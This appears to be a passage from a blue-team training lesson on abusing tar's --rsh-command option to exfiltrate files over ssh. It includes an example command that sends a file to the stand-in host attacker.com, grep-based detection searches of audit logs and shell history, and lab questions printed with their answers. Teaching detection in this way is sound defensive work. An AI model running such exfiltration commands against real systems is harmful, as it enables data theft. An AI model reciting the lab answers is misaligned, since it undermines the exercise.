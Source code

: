 The tar application is used for operations such as creating or  unarchiving on *nix systems. This command is capable of specifying a  remote target location where the archiving will be implemented. In this  way, the archive can be created in a remote location while the data is  being archived. While creating the archive, it creates the remote  location via ssh. As in the example below, the tar command creates an  archive with the "cvf" parameter. The remote location is determined as  user@target_system:/archive_file as the location where the archive will  be created. At the same time, the -rsh-command parameter specifies the  type of access to the remote system. In this way, it is ensured that the archived data is created directly in a remote location via ssh.

```
# RHOST=attacker.com  # RUSER=root  # RFILE=/tmp/file_to_send.tar  # LFILE=file_to_send  # tar cvf $RUSER@$RHOST:$RFILE $LFILE --rsh-command=/bin/ssh
```

For detection; The usage of the tar command with the -rsh-command  parameter should be monitored closely. In addition, it is should be  questioned whether the destination (IP/domain) to which the file is  transferred is a known destination.

- Searchable in Linux audit logs.  # cat /var/log/audit/audit.log | grep “tar” | grep "\-\-rsh\-command"   - Searchable from history on Linux system.  # history | grep “tar” | grep "\-\-rsh\-command"  or  # cat ~/.bash_history | grep “tar” | grep "\-\-rsh\-command"   - It can be searched from "tar" process create or network connection  events in EDR/XDR logs. Afterwards, the "--rsh-command" parameter is  checked on the command line.

### Questions

**NOTE:** The answers are in the gtfo.log or history records. You can find the answers by searching in these files. 

**Log File Location:** /root/Desktop/QuestionFiles/

1 - What is the hostname information of the target system to which the data  is uploaded using Mitre ATT&CK technique “T1596.002 - Search Open  Technical Databases: WHOIS”?

> **Answer:** cc.letsdefend.local

2 - What is the name of the source file uploaded to the system with the IP address 172.16.1.67?

> **Answer:** cc.txt

3 - What method is utilized to upload a file using curl command?

> **Answer:** POST

4 - Which application was  utilized to upload the “hidden.txt” file which is uploaded with the  “T1105 - Ingress Tool Transfer” Mitre ATT&CK technique?

> **Answer:** ftp

5 - To which directory the “users.db” file, which was uploaded using “T1105 - Ingress Tool Transfer” Mitre ATT&CK technique, was uploaded on the  target system?

> **Answer:** /var/www/html/

## File Download

Attackers will definitely want to download various files in order to  perform different activities (lateral movement, encrypting data,  privilege escalation, etc.) on the systems they seize. We will covering  those legal applications that they can utilize in *nix systems in such  cases. We will detail those applications, their functions and suspicious uses of these applications.
